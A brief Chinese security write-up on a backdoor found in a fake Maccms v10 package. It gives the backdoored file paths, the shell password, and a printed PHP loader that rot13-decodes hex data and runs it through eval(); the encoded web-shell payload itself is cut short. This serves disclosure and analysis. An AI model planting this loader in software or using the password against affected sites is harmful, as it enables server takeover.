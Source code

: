# Maccms 后门

> 原文：[http://book.iwonder.run/0day/Maccms/3.html](http://book.iwonder.run/0day/Maccms/3.html)

## 一、漏洞简介

有人假冒苹果 cms 官网，发布带有后门的程序。

## 二、漏洞影响

version v10

## 三、复现过程

### 后门文件路径

maccms10\extend\upyun\src\Upyun\Api\Format.php

maccms10\extend\Qcloud\Sms\Sms.php

密码 WorldFilledWithLove

### 后门样本

```
<?php
error_reporting(E_ERROR);
@ini_set('display_errors','Off');
@ini_set('max_execution_time',20000);
@ini_set('memory_limit','256M');
header("content-Type: text/html; charset=utf-8");
$password = "0d41c75e2ab34a3740834cdd7e066d90";
function s(){
 $str = "66756r6374696s6r207374…………"; //大马
 $str = str_rot13($str);
 m($str);
}
function m($str){
 global $password;
 $jj = '';
 eval($jj.pack('H*',$str).$jj);
}
s();
?> 
```

![image](img/17ed76eecf66b1ea7b4888864fcb479e.png)

